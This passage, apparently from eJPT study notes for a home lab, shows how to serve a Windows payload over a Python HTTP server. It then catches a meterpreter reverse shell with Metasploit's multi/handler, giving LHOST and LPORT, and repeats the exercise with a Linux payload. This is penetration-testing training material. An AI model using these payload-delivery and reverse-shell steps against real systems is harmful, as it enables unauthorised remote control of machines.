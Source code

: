 ```bash
cd /home/kali/certs/ejpt/Windows_Payloads
sudo python -m http.server 8080
```

- To deal with a `meterpreter` payload, an appropriate listener is necessary to handle the reverse connection, the `multi/handler` Metasploit module in this case

```bash
msfconsole -q
```

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.31.128
set LPORT 1234
run
```

- Download the payload on the Windows 2008 system (in this case my home lab VM) from this link

  - `http://192.168.31.128:8080`
  - Run the `payloadx86.exe` payload on the target
- The `meterpreter` session on the attacker machine should be opened

![](.gitbook/assets/image-20230415200856110.png)

Same example with the `linux/x86/meterpreter/reverse_tcp` Linux payload executed on the Kali VM.

![](.gitbook/assets/image-20230415201253314.png)
